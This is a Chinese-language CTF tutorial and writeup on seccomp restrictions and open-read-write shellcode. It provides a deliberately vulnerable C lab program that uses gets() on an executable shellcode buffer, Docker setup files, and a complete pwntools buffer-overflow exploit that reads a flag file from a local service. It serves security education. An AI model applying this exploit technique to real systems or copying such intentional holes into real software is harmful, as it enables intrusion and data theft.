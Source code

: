 ```yaml
---
title: "Day19－Shellcode Bonus－ORW"
date: 2024-09-19
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

今天我們將介紹一些簡單的知識，並在最後提供一個練習 Lab。看完前面的內容，大家可能會想：「如果我們可以調用 `execve`，那是否就能拿到 shell 呢？」這確實沒錯，但還有一種方法可以防止使用者調用 `execve` 系統呼叫 (syscall)，這就是 `seccomp` 的機制。

## Seccomp (secure computing mode)

`seccomp` 是 Linux 核心用來禁用特定系統呼叫的機制，透過 `Seccomp BPF` 可以設定對某些 syscall 的過濾規則。例如，可以限制 `execve`，甚至 `open`、`read`、`write` 等等。

但在實作這些規則後，逆向工程的過程可能變得不直觀且困難理解。為了簡化分析，`one gadget` 工具的作者還開發了一個工具，叫做 `seccomp-tools`，非常適合這類情況。

## [seccomp-tools](https://github.com/david942j/seccomp-tools)

**筆者提供的環境中已經安裝了該工具**

這個工具能分析程式的 `seccomp` 規則，並將結果轉換成直觀的 `if-else` 形式的 pseudo code。這讓我們能輕鬆看出程式允許或限制了哪些 syscall，非常適合處理複雜的 `seccomp` 規則。

使用方式如下：

```bash=
seccomp-tools dump ./[binary]
```

![image](https://hackmd.io/_uploads/S1ithRcCC.png)

## Lab

查看以下原始碼：

```c=
#include <stdio.h>
#include <sys/mman.h>
#include <unistd.h>
#include "seccomp-bpf.h"

void apply_seccomp() {
    struct sock_filter filter[] = {
        VALIDATE_ARCHITECTURE,
        EXAMINE_SYSCALL,
        ALLOW_SYSCALL(read),
        ALLOW_SYSCALL(write),
        ALLOW_SYSCALL(open),
        KILL_PROCESS,
    };

    struct sock_fprog prog = {
        .len = (unsigned short)(sizeof(filter) / sizeof(struct sock_filter)),
        .filter = filter,
    };

    if (prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0)) {
        perror("Seccomp Error");
        exit(1);
    };
    if (prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog)) {
        perror("Seccomp Error");
        exit(1);
    };
}
char shellcode[0x100];
int main() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    unsigned long addr = (unsigned long)&shellcode & ~0xfff;
    mprotect((void *)addr, 0x1000, PROT_EXEC | PROT_READ | PROT_WRITE);
    apply_seccomp();
    printf("I add new rule to prevent you from using system().\n");
    printf("Give me shellcode: ");
    read(0, shellcode, 0x100);
    printf("Overflow me: ");
    char buffer[0x10];
    gets(buffer);
    printf("Bye!\n");
    return 0;
}
```

使用以下指令進行編譯：

```sh=
gcc src/orw.c -o ./orw/share/orw -fno-stack-protector -no-pie
```

## writeup

可以發現程式將 `shellcode` 陣列的位置修改為可讀、可寫、可執行，並且在程式中允許使用者輸入 shellcode。程式中最關鍵的是 `gets` 的 buffer overflow 且沒有開啟 PIE 與 Canary，這讓我們能夠控制 return address。再者，程式使用了 `Seccomp` 規則，只允許 `open`、`read`、`write` 這三個 syscall，因此我們無法使用 `execve` 獲取 shell。此時我們可以透過 `seccomp-tools` 來確認。

![image](https://hackmd.io/_uploads/H1uVNJsCA.png)

換個角度思考，我們獲取 shell 的目的是為了拿到 flag。程式允許我們開啟檔案、讀取檔案並輸出內容，因此如果知道 flag 的位置，我們可以直接開檔讀取並輸出，如此即可拿到 flag。接下來我們需要確認幾件事：

- flag 檔案的位置
- 如何開啟、讀取、輸出檔案
- shellcode 的位置

首先，讓我們查看提供的檔案目錄：

![image](https://hackmd.io/_uploads/SyJFyyoAR.png)

從 `Dockerfile` 開始分析，會發現 Docker 創建了 `ubuntu:22.04` 的容器，並且設定了與網路服務相關的 `xinetd`。從目錄結構可以推測 flag 位於 `/home/orw/flag`。

```dockerfile=
FROM ubuntu:22.04
LABEL org.opencontainers.image.authors="YJK"
RUN apt-get update
RUN apt-get install xinetd -y
RUN useradd -m orw
RUN chown -R root:root /home/orw
RUN chmod -R 755 /home/orw
CMD ["/usr/sbin/xinetd", "-dontfork"]
```

以下是負責此題的 `docker-compose.yml`，可以看到 `orw/share` 被掛載到容器的 `/home/orw`，因此 flag 的位置應該是 `/home/orw/flag`。

```yml=
orw:
    build: ./orw
    volumes:
      - ./orw/share:/home/orw:ro
      - ./orw/xinetd:/etc/xinetd.d/orw:ro
    ports:
      - "10010:10005"
```

接下來，我們可以透過 `pwntools` 的 `shellcraft` 來生成可以開啟 `/home/orw/flag` 並讀取其內容的 shellcode。

以下程式就會生成可以使用來開啟 `/home/orw/flag` 再讀檔並輸出到 stdin 的 shellcode，那基本上這段程式的執行大概會是先將 `'/home/orw/flag'` 字串放到 stack，並且再透過 `open` 將 `rsp` 的內容，也就是剛剛放入 stack 的檔案路徑打開，並且後面的兩個 0 是作為設定開檔模式與設定權限的部分，再來透過 `read` 將 `rsp` 指向的檔案讀取並儲存，`rax` 是用來讀取檔案，再來透過 `write` 將 `rsp` 剛剛讀取並存入的內容輸出，並且前面的 1 為設定為 stdin，在此時即可以看到檔案內容

```py=
shellcode = b""

shellcode += asm(shellcraft.pushstr('/home/orw/flag'))
shellcode += asm(shellcraft.open('rsp', 0, 0))
shellcode += asm(shellcraft.read('rax', 'rsp', 0x100))
shellcode += asm(shellcraft.write(1, 'rsp', 0x100))
```

最後，我們需要確認溢出的 padding 和跳轉的地址。可以使用 `nm` 確定 shellcode 的地址。

![image](https://hackmd.io/_uploads/BysY71i0C.png)

使用 `objdump` 可以發現輸入從 `rbp-0x20` 開始，因此我們需要填充 0x20+0x8 的資料，然後跳轉到 shellcode。

![image](https://hackmd.io/_uploads/Bya2XJjAA.png)

完整 exploit：

```py=
from pwn import *
context.arch = 'amd64'
# r = process('../orw/share/orw')
r = remote('127.0.0.1', 10010)

shellcode = b""

shellcode += asm(shellcraft.pushstr('/home/orw/flag'))
shellcode += asm(shellcraft.open('rsp', 0, 0))
shellcode += asm(shellcraft.read('rax', 'rsp', 0x100))
shellcode += asm(shellcraft.write(1, 'rsp', 0x100))

r.sendlineafter(b': ', shellcode)
payload = b'A' * (0x20 + 8) + p64(0x4040a0)
r.sendlineafter(b': ', payload)
r.recvuntil(b'!\n')
r.interactive()
```

solved!!!

![image](https://hackmd.io/_uploads/Bk8T4yoR0.png)
